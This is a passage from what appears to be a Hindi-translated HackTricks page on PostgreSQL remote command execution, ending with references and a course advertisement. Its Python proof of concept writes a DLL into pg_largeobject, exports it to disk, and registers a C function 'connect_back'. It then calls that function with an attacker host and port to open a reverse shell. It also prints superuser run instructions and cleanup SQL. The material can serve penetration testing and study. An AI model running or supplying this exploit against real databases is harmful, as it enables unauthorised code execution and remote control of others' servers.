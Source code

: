 ```python
end   = (i+1) * 2048
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```
## संदर्भ

* [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [https://www.exploit-db.com/papers/13084](https://www.exploit-db.com/papers/13084)

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
